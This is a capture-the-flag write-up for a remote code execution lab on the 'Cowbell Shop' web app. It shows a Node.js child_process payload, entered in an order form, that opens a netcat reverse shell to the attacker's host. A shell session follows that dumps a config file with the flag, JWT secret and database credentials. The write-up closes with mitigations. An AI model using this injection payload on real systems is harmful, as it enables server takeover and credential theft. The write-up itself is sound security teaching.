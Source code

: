 # Cowbell Shop 5 - RCE

## Challenge

Remote Code Execution Attack: how clumsy code can lead to disasters

## Answer

### Explain the security problem 

* A remote code execution attack is one of the most dangerous. It can lead to full system access and take over of the system.

### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Start Web Shell Docker and listen on Port 1337

![](../../.gitbook/assets/image%20%28362%29.png)

```text
# IP
10.2.0.5

# PORT
1337
```

Step 2 -3 \)  Open the vuln. Cowbell Shop and navigate to Order page. Input in the form

```text
require('child_process').exec('nc 10.2.0.5 1337 -e sh -c "sh -i"')
```

and "Export PDF" \(which is not used in this challenge\)



Step 4\)  Check your netcat server for an incoming connection.

```bash
/app # cd configs
/app/configs # cat index.js
'use strict';

const flag = '3c7790ce-996f-4192-835b-619415f6bf7c';
const authSecret = '6a5d1f68as189c1asd31c98ad74f$ä¨ü123^01230dfasdklöfj asjfklö ä$das-füadfc$äsdä-$ad maklfjolu89ujpoadfädüafcnadszucfbhjk9m vkldf mlökl';
const fs = require('fs');
const sslKey = fs.readFileSync('encryption/key.pem');
const sslCert = fs.readFileSync( 'encryption/cert.pem' );

const config = {
    server: {
        host: '0.0.0.0',
        port: '80',
        sslPort: '443',
        SSRFPort: '8765'
    },
    sslOptions: {
        key: sslKey,
        cert: sslCert
    },
    crypt: {
        hash: 'sha256',
        secret: 'kslafjop2)/)*(ZOJKN*K*JL*IU%*IO%JH'
    },
    mongo: {
        username: 'webshopEditor',
        password: '1234',
        host: 'localhost',
        port: 27017,
        name: 'webshop',
        connectionString() {
            return 'mongodb://' + this.username + ':' + this.password + '@' + this.host + ':' + this.port + '/' + this.name;
        }
    },
    jwt: {
        secret: authSecret,
    },
    auth: {
        signOptions: {
            audience: 'self',
            issuer: 'webshop',
        },
        validateOptions: {
            secret: authSecret,
            audience: 'self',
            issuer: 'webshop'
        }
    },
    postImages: {
        directory: './assets/post-images/',
    },
    accountProfile: {
        directory: './public/app/assets/profiles/',
    }
};

module.exports = config;
/app #
```

Flag  = `3c7790ce-996f-4192-835b-619415f6bf7c`  


## Solution

#### Explain the underlying security problem

* Ability to trigger arbitrary code execution over a network.
* The CowbellShop is vuln. to Remote Code Execution 
* Attacker is able to run code with system level privileges on the CowbellShop server 
  * Access config files \(database, users\)

#### Explain the exploit

* The attackers user input 

  ```text
  require('child_process').exec('nc 10.2.0.5 1337 -e sh -c "sh -i"')
  ```



  is not sanitized and executed \(PDF generation\) on the victims server

* The victims server is not protected enough

#### Explain mitigation

* Secure programming:  User input validation and sanitation
* Patching of the server and used libraries
* Web Application Firewall \(ability to block such request based on patterns\)



